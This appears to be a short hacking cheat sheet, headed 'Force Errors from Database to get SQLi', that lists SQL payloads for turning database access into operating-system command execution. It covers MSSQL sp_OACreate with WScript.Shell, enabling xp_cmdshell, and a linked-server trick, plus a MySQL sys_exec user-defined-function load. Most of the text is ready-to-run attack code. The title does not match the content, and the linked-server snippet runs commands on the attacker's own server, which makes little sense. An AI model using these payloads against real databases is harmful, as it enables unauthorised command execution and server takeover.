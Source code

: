 ```yaml
---
title: "Force Errors from Database to get SQLi"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
author: 'Ren'
authorlink: 'https://about.0x0060.dev/'
---
```


## MSSQL  

### OLE Automation Procedures

```  
DECLARE @Object INT;  
EXEC sp_OACreate 'WScript.Shell', @Object OUTPUT;  
EXEC sp_OAMethod @Object, 'Run', NULL, 'cmd.exe /c whoami > C:\output.txt';  
```

This uses OLE Automation procedures to execute system commands.

### XP_CMD Shell with Privilege Escalation

```  
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXEC xp_cmdshell 'whoami';  
```

This enables **xp_cmdshell** to execute system commands if it's not already enabled.

### Linked Servers

```  
EXEC sp_addlinkedserver 'attacker_server';  
EXEC sp_addlinkedsrvlogin 'attacker_server', 'false', NULL, 'username', 'password';  
EXEC ('xp_cmdshell ''net user''') AT attacker_server;  
```

This technique uses linked servers to run commands on a different server.

## MySQL

### UDF (User Defined Functions) for Remote Command Execution

```  
CREATE TABLE foo(line BLOB);  
INSERT INTO foo VALUES (LOAD_FILE('/usr/lib/lib_mysqludf_sys.so'));  
SELECT * FROM foo INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';  
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';  
SELECT sys_exec('id > /tmp/out; chown mysql.mysql /tmp/out');  
```
